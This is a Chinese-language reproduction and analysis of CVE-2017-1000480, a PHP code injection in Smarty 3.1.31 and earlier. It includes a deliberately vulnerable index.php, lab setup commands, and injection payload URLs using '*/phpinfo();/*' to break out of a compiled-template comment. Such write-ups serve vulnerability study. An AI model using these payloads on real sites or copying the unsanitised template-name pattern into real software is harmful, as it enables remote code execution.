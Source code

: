 ```yaml
---
title: "（CVE-2017-1000480）Smarty<=3.1.31 命令执行RCE"
id: zhfly3127
---
```


# （CVE-2017-1000480）Smarty<=3.1.31 命令执行RCE

## 一、漏洞简介

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty 3容易受到PHP代码注入的攻击。

## 二、漏洞影响

Smarty<=3.1.31、3.1.32-dev

## 三、复现过程

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

```
➜  html mkdir smarty
➜  html cd smarty
➜  smarty mkdir cache compile templates
➜  smarty composer require smarty/smarty -v
➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
➜  smarty composer update
➜  smarty sudo chmod -R 777 . 
```

/var/www/html/smarty/index.php 如下：

```
<?php
require './vendor/autoload.php';

class Smarty_Resource_Widget extends Smarty_Resource_Custom

{

protected function fetch($name, &$source, &$mtime)

{

$template = “Smarty <=3.1.31 RCE (CVE-2017-1000480)”;

$source = $template;

$mtime = time();

return ‘mochazz’;

}

}

$smarty = new Smarty();

$smarty->setCacheDir(‘cache’);

$smarty->setCompileDir(‘compile’);

$smarty->setTemplateDir(‘templates’);

$my_security_policy = new Smarty_Security($smarty);

$smarty->enableSecurity($my_security_policy);

$smarty->registerResource(‘username’, new Smarty_Resource_Widget());

$smarty->display(‘username:’.$_GET[‘mochazz’]); `?>` 
```

### 2、漏洞分析

具体攻击 payload 如下：

```
http://0-sec.org/index.php?mochazz=*/phpinfo();/* 
```

![image](../img/4602144b95b7b5c720ceff33f357a566.png)

我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在 render 方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。

![image](../img/8202c8c3f6af84a133bbbaecebe661e6.png)

在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的 compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

```
# 代码：$smarty->display('username:'.$_GET['mochazz']);

# payload1：[http://0.0.0.0/smarty/index.php?mochazz=](http://0.0.0.0/smarty/index.php?mochazz=)*/phpinfo();/*

4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

# payload2：[http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//](http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//) `1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php` 
```

这是因为 compile 文件名中，有一部分由 basename($source->name) 决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload 时，文件名就会包含 * 号。在 Linux 系统下，文件名允许包含 * 号，但是 Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows 平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile 文件中的内容包含模板路径（即下图最后一行代码 $_template->source->filepath ），这个模板路径就是我们传入 display 方法的参数。虽然该参数被注释包裹，但是我们可以用 */ 闭合。写入 compile 文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

![image](../img/0520f0875fd38a1c8170ded9c65b4848.png)